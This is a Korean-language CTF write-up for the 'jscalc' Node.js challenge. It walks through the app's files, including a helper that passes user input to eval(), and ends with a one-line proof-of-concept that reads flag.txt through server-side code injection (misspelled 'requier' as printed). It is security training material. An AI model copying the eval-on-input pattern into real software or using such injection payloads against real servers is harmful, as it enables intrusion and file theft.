 # jscalc
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)
![js](https://img.shields.io/badge/Node.js-43853D?style=for-the-badge&logo=node.js&logoColor=white)

![image](https://github.com/user-attachments/assets/ef9e4118-eed8-4707-bbdb-f87dac2556fd)
- 입력한 값을 ```eval()``` 로 계산해주는 사이트

## Tree
```
 > tree /F
 Folder PATH listing for volume system
 Volume serial number is F2DB-00D8
 C:.
 │   build-docker.sh
 │   Dockerfile
 │   flag.txt
 │   supervisord.conf
 │   
├───challenge
 │   │   index.js
 │   │   package-lock.json
 │   │   package.json
 │   │   yarn.lock
 │   │
 │   ├───helpers
 │   │       calculatorHelper.js
 │   │
 │   ├───routes
 │   │       index.js
 │   │
 │   ├───static
 │   │   │   favicon.png
 │   │   │
 │   │   ├───css
 │   │   │       main.css
 │   │   │
 │   │   └───js
 │   │           main.js
 │   │
 │   └───views
 │           index.html
 │
 └───config
 supervisord.conf
```
- 디렉토리 구조는 위와 같다.

## 정적 분석
```
 {
   "name": "jscalc",
   "version": "1.0.0",
   "description": "",
   "main": "index.js",
   "nodeVersion": "v8.12.0",
   "scripts": {
   "start": "node index.js"
   },
   "keywords": [],
   "authors": [
   "makelaris",
   "makelarisjr"
   ],
  "dependencies": {
   "body-parser": "^1.19.0",
   "express": "^4.17.1"
   }
 }
```
- 애플리케이션을 시작하는 데 사용되는 스크립트인 "start"가 ```index.js```를 실행하는 것을 확인

```
const express  = require('express'); 
const app  = express();
const bodyParser  = require('body-parser');
const routes  = require('./routes');
const path  = require('path');

 app.use(bodyParser.json());

 app.set('views', './views');
 app.use('/static', express.static(path.resolve('static')));

 app.use(routes);

 app.all('*', (req, res) => {
 return res.status(404).send({
 message: '404 page not found'
	});
 });

 app.listen(1337, () => console.log('Listening on port 1337'));
```
- ```app.use(routes);```로 라우팅 미들웨어를 등록하여 현재 디렉토리의 'routes; 모듈에서 정의한 라우팅 로직을 사용하는 것을 확인

```
const path = require('path');
const express  = require('express');
const router = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

 router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
 });

 router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}
 return res.send(response('Missing parameters'));
 })
 module.exports = router;
```
- ```./routes/index.js```의 내용이다. ```/api/calculate```로 POST 요청이 들어오면 인자를 ```Calculator.calculate();```에 넣고 반환값을 클라이언트에게 전송한다.

```
module.exports = {
 calculate(formula) {
   try {
     return eval(`(function() { return ${ formula } ;}())`);
   } catch (e) {
       if (e instanceof SyntaxError) {
         return 'Something went wrong!';
       }
     }
   }
 }
```
- ```../helpers/calculatorHelper```의 내용이다. 함수 calculate가 받은 인자를 eval()에 넣어서 실행하고, 반환한다.
- calculatorHelper기준 상위 디렉토리에 있는 flag.txt를 읽는 것이 목표이므로, fs 모듈의 ```readFileSync()```를 사용하여 파일을 읽도록 시도한다.

## PoC
```requier('fs').readFileSync('../flag.txt', 'utf8')```

![image](https://github.com/user-attachments/assets/5409cb6c-caea-4872-ba82-7c92c6b9fcd7)



